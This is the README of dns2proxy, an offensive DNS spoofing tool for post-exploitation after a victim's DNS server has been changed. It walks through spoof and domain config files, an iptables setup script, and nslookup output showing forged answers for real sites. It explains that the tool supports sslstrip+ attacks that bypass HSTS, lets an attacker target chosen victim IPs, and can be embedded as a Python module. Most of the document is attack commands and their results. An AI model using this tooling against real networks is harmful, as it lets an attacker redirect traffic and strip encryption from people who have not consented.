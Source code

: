 ## CyberSecurity
This tools offer a different features for post-explotation once you change the DNS server to a Victim. <Referer to help (-h) to new params options>
Feature 1

Traditional DNS Spoof adding to the response the original IP address.

Using spoof.cfg file:

hostname ip.ip.ip.ip

    root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg

    // launch in another terminal dns2proxy.py

    root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1
    Server: 127.0.0.1
    Address: 127.0.0.1#53

    Name: www.s21sec.com
    Address: 1.1.1.1
    Name: www.s21sec.com
    Address: 88.84.64.30

or you can use domains.cfg file to spoof all host of a same domain:

    root@kali:~/demoBH/dns2proxy# cat dominios.cfg
    .domain.com 192.168.1.1

    root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1
    Server: 127.0.0.1
    Address: 127.0.0.1#53

    Name: aaaa.domain.com
    Address: 192.168.1.1

Hostnames at nospoof.cfg will no be spoofed.
Feature 2

This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).

To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding

Usage: ia.sh < interface > [ip1] [ip2]

    root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230
    Non spoofing imap.gmail.com
    Non spoofing mail.s21sec.com
    Non spoofing www.google.com
    Non spoofing www.apple.com
    Non spoofing ccgenerals.ms19.gamespy.com
    Non spoofing master.gamespy.com
    Non spoofing gpcm.gamespy.com
    Non spoofing launch.gamespyarcade.com
    Non spoofing peerchat.gamespy.com
    Non spoofing gamestats.gamespy.com
    Specific host spoofing www.s21sec.com with 1.1.1.1
    Specific domain IP .domain.com with 192.168.1.1
    binded to UDP port 53.
    waiting requests.
    Starting sniffing in (eth0 = 172.16.48.128)....

    < at other terminal >

    root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1
    Server: 127.0.0.1
    Address: 127.0.0.1#53

    Name: www.microsoft.com
    Address: 172.16.48.128
    Name: www.microsoft.com
    Address: 172.16.48.230
    Name: www.microsoft.com
    Address: 65.55.57.27

The fhtang.sh script will terminate the program and restore normal iptables.

Hostnames at nospoof.cfg will no be spoofed.
Feature 3

Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.

This server is necesary to make the sslstrip+ attack.

    root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1 <-- DNS response like accounts.google.com
    Server: 127.0.0.1
    Address: 127.0.0.1#53

    Name: webaccounts.google.com
    Address: 172.16.48.128
    Name: webaccounts.google.com
    Address: 172.16.48.230
    Name: webaccounts.google.com
    Address: 74.125.200.84

    root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1 <-- Take care of the 4 w! DNS response like
    Server: 127.0.0.1 www.yahoo.com
    Address: 127.0.0.1#53

    Name: wwww.yahoo.com
    Address: 172.16.48.128
    Name: wwww.yahoo.com
    Address: 172.16.48.230
    Name: wwww.yahoo.com
    Address: 68.142.243.179
    Name: wwww.yahoo.com
    Address: 68.180.206.184

Installation

dnspython (www.dnspython.com) is needed. Tested with Python 2.6 and Python 2.7.
Importing Dns2Proxy as a Python module

Dns2proxy can be imported and run within a Python script or larger project. To use Dns2proxy as a module, first import it within your project file:

	import dns2proxy

Then start it by making a call to dns2proxy.run() as shown below, passing your network interface as an argument:

	import dns2proxy
	dns2proxy.run(interface='wlan0')

Note that dns2proxy.run() is a blocking call, and that running dns2proxy in parallel with other modules such as sslstrip2 requires the use of daemon processes. For example:

	import dns2proxy
	from multiprocessing import Process

	def run_dns2proxy(interface):

		dns2proxy.run(interface=interface)

	p = Process(target=dns2proxy.run, args=('wlan0',))
	p.start()

	print 'Run the rest of your code here'

	p.stop()
	

Config files description

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP

    Ex: .facebook.com 1.2.3.4 .fbi.gov 1.2.3.4

spoof.cfg : Spoof a host with a ip

    Ex: www.nsa.gov 127.0.0.1

nospoof.cfg: Send always a legit response when asking for these hosts.

    Ex. mail.google.com

nospoofto.cfg: Don't send fake responses to the IPs listed there.

    Ex: 127.0.0.1 4.5.6.8

victims.cfg: If not empty, only send fake responses to these IP addresses.

    Ex: 23.66.163.36 195.12.226.131

resolv.conf: DNS server to forward the queries.

    Ex: nameserver 8.8.8.8

